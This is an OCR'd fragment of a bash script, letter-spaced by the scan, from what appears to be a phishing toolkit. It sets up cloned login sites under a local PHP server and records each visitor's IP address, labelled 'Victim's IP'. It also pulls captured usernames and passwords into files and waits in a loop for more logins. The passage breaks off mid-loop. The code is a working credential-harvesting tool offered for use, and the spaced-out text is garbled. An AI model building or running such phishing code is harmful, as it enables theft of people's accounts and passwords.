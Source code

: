  	 	 0   |   0 0 ) 
 	 	 	 e c h o   - n e   " \ n $ { G R E E N } [ $ { W H I T E } + $ { G R E E N } ] $ { C Y A N }   R e t u r n i n g   t o   m a i n   m e n u . . . " 
 	 	 	 {   s l e e p   1 ;   m a i n _ m e n u ;   } ; ; 
 	 	 * ) 
 	 	 	 e c h o   - n e   " \ n $ { R E D } [ $ { W H I T E } ! $ { R E D } ] $ { R E D }   I n v a l i d   O p t i o n ,   T r y   A g a i n . . . " 
 	 	 	 {   s l e e p   1 ;   a b o u t ;   } ; ; 
 	 e s a c 
 } 
 
 # #   S e t u p   w e b s i t e   a n d   s t a r t   p h p   s e r v e r 
 H O S T = ' 1 2 7 . 0 . 0 . 1 ' 
 P O R T = ' 8 0 8 0 ' 
 
 s e t u p _ s i t e ( )   { 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { B L U E }   S e t t i n g   u p   s e r v e r . . . " $ { W H I T E } 
 	 c p   - r f   . s i t e s / " $ w e b s i t e " / *   . s e r v e r / w w w 
 	 c p   - f   . s i t e s / i p . p h p   . s e r v e r / w w w / 
 	 e c h o   - n e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { B L U E }   S t a r t i n g   P H P   s e r v e r . . . " $ { W H I T E } 
 	 c d   . s e r v e r / w w w   & &   p h p   - S   " $ H O S T " : " $ P O R T "   >   / d e v / n u l l   2 > & 1   &   
 } 
 
 # #   G e t   I P   a d d r e s s 
 c a p t u r e _ i p ( )   { 
 	 I P = $ ( g r e p   - a   ' I P : '   . s e r v e r / w w w / i p . t x t   |   c u t   - d   "   "   - f 2   |   t r   - d   ' \ r ' ) 
 	 I F S = $ ' \ n ' 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   V i c t i m ' s   I P   :   $ { B L U E } $ I P " 
 	 e c h o   - n e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { B L U E }   S a v e d   i n   :   $ { O R A N G E } i p . t x t " 
 	 c a t   . s e r v e r / w w w / i p . t x t   > >   i p . t x t 
 } 
 
 # #   G e t   c r e d e n t i a l s 
 c a p t u r e _ c r e d s ( )   { 
 	 A C C O U N T = $ ( g r e p   - o   ' U s e r n a m e : . * '   . s e r v e r / w w w / u s e r n a m e s . t x t   |   a w k   ' { p r i n t   $ 2 } ' ) 
 	 P A S S W O R D = $ ( g r e p   - o   ' P a s s : . * '   . s e r v e r / w w w / u s e r n a m e s . t x t   |   a w k   - F   " : . "   ' { p r i n t   $ N F } ' ) 
 	 I F S = $ ' \ n ' 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   A c c o u n t   :   $ { B L U E } $ A C C O U N T " 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { G R E E N }   P a s s w o r d   :   $ { B L U E } $ P A S S W O R D " 
 	 e c h o   - e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { B L U E }   S a v e d   i n   :   $ { O R A N G E } u s e r n a m e s . d a t " 
 	 c a t   . s e r v e r / w w w / u s e r n a m e s . t x t   > >   u s e r n a m e s . d a t 
 	 e c h o   - n e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { O R A N G E }   W a i t i n g   f o r   N e x t   L o g i n   I n f o ,   $ { B L U E } C t r l   +   C   $ { O R A N G E } t o   e x i t .   " 
 } 
 
 # #   P r i n t   d a t a 
 c a p t u r e _ d a t a ( )   { 
 	 e c h o   - n e   " \ n $ { R E D } [ $ { W H I T E } - $ { R E D } ] $ { O R A N G E }   W a i t i n g   f o r   L o g i n   I n f o ,   $ { B L U E } C t r l   +   C   $ { O R A N G E } t o   e x i t . . . " 
 	 w h i l e   t r u e ;   d o 
 	 	 i f   [ [   - e   " . s e r v e r / w w w / i p . t x t "   ] ] ;   t h e n 